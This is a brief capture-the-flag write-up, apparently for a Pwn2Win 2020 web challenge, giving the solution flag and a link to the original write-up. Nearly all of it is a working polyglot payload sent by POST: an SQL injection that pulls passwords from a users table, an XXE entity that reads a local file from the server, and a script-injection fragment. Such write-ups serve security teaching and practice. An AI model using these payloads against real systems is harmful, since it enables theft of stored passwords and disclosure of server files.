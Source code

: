 Challenge: http://payload.pwn2.win/

Make a post request to http://payload.pwn2.win/ with the following body content:
``payload=<!--' or 1=1 union select password,NULL,NULL from users  #--><!DOCTYPE hack [<!ENTITY xxe SYSTEM 'file:///home/gnx/script/xxe_secret'> <!ENTITY name SYSTEM '>xss=1;//'> ]><hack>&xxe;</hack>``

Flag: CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}

Original write-up: https://github.com/pwn2winctf/challenges-2020/tree/master/web-A%20payload%20to%20rule%20them%20all
